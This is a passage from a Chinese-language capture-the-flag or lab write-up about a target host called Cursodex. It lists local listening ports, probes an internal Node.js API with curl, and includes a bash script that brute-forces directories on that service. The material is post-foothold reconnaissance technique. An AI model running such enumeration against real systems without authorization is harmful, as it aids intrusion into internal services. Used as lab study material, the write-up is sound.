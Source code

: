```bash
www-data@Cursodex:/var/www/admin$ ss -tulnp
...
tcp    LISTEN    0    511    127.0.0.1:3001    0.0.0.0:*                                
tcp    LISTEN    0    4096   127.0.0.1:11434   0.0.0.0:*                                
tcp    LISTEN    0    511            *:80            *:*                                
```

发现内网服务：

- **3001 端口**：Node.js API 服务
- **11434 端口**：可能是 Ollama AI 服务

## 内网 API 探测

测试 3001 端口：

```bash
www-data@Cursodex:/home$ curl 127.0.0.1:3001
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /</pre>
</body>
</html>
```

## 目录枚举脚本

编写批量扫描脚本：

```bash
www-data@Cursodex:/tmp$ cat dirscan.sh 
#!/bin/bash

base_url="http://127.0.0.1:3001"
wordlist="directory-list-2.3-medium.txt"

total=$(grep -v "^#" "$wordlist" | grep -v "^$" | wc -l)
count=0

echo "开始扫描: $base_url"
echo "字典文件: $wordlist (共$total条)"
echo "测试方法: GET + POST"

while IFS= read -r dir; do
    [[ "$dir" =~ ^# || -z "$dir" ]] && continue
  
    ((count++))
    printf "\r[%d/%d] 测试中: %-50s" $count $total "/$dir"
  
    for method in GET POST; do
        status=$(curl -s -o /dev/null -w "%{http_code}" -X "$method" "$base_url/$dir")
      
        if [[ "$status" != "404" ]]; then
            echo -e "\n$status:/$dir ($method)"
        fi
    done
  
done < "$wordlist"
```
